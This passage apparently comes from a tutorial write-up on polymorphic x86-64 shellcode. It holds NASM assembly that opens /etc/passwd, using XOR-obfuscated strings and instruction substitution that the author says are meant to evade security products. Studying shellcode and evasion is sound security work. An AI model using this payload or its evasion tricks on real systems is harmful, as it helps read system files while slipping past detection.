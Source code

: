 You could save even more bytes if you decided to use a shorter name for the temporary file.

Back to the shellcode, I wrote the following assembly routines:

- `OpenPasswdFile `opens the file `/etc/passwd`
- `ReadPasswdFile` reads the contents of the file `/etc/passwd` and saves the bytes into a buffer
- `CreateTempFile `creates a new file named `/tmp/outfile`
- `WriteTempFile` writes the bytes read from `/etc/passwd` into `/tmp/outfile`

### Opening the file

The first step is opening the file. Since the goal in this case is to modify the bytes in order achieve polymorphism and evade security products, I performed the following changes:

- change most of the registers
- obfuscate the strings (through `XOR` operations in this case)
- use `PUSH` and `POP` instead of `MOV`
- use `ADD` instead of `MOV`

```nasm
global _start

section .text

_start:

OpenPasswdFile:

    ; clear RCX and push it to the stack
    ; to act as a string terminator
    xor ecx, ecx
    push rcx

    ; clear RSI and RAX
    push rcx
    pop rsi

    push rsi
    pop rax

    ; set RAX to 2 (syscall open)
    add al, 2

    ; XOR key
    mov rdi, 0x58b750eda5df8ee9

    ; string "sswd" xored
    mov ecx, 0xc1a8fd9a
    xor ecx, edi
    push rcx

    ; string "//etc/pa" xored
    mov rcx, 0x39c77f8ed1baa1c6
    xor rcx, rdi

    ; store the pointer to the string into RDI
    push rcx
    push rsp
    pop rdi

    ; invoke syscall open
    syscall
```
